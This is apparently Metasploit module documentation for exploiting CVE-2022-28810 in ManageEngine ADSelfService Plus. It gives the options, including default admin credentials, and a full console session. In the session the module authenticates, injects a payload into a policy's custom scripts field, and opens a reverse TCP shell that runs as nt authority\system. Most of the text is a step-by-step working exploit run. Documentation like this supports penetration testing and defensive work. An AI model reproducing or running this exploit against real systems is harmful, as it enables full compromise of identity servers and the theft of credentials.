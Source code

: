 ## Options

### USERNAME

The ManageEngine ADSelfService Plus administrator's username ("admin" by default).

### PASSWORD

The ManageEngine ADSelfService Plus administrator's password ("admin" by default).

## TARGET_RESET

If set to true, instead of dropping a payload into the custom scripts fields, the module
will disable custom scripts and clear the custom scripts field. If set to false, the module
will enable custom scripts and insert the configured payload.

## Scenarios

### Successful exploitation of ADSelfService Plus 6121 on Windows 10 over HTTP

```
msf6 > use exploit/windows/http/manageengine_adselfservice_plus_cve_2022_28810
[*] Using configured payload cmd/windows/jjs_reverse_tcp
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set RHOST 10.0.0.20
RHOST => 10.0.0.20
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > check
[*] 10.0.0.20:8888 - The target appears to be vulnerable. This determination is based on the version string: 6121.
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > run
[*] Exploit running as background job 0.

[*] Running automatic check ("set AutoCheck false" to disable)
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > [+] The target appears to be vulnerable. This determination is based on the version string: 6121.
[+] Authentication successful
[*] Requesting policy list from /ServletAPI/configuration/policyConfig/getPolicyConfigDetails
[*] Requesting policy details for okhuman.ninja
[*] Enabling custom scripts and inserting the payload
[*] Posting updated policy configuration to /ServletAPI/configuration/policyConfig/setAPCDetails
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.0.0.2:4444 

msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > 
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > 
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > [*] Command shell session 1 opened (10.0.0.2:4444 -> 10.0.0.20:49940 ) at 2022-04-19 08:47:28 -0700

msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > sessions 1
[*] Starting interaction with 1...


Shell Banner:
M
-----
          

C:\ManageEngine\ADSelfService Plus\bin>whoami
whoami
nt authority\system
```

[Getting Started]: https://www.manageengine.com/products/self-service-password/help/admin-guide/gettingstarted/getting-started.html
[ManageEngine_ADSelfService_Plus_64bit.exe]: https://archives2.manageengine.com/self-service-password/6121/ManageEngine_ADSelfService_Plus_64bit.exe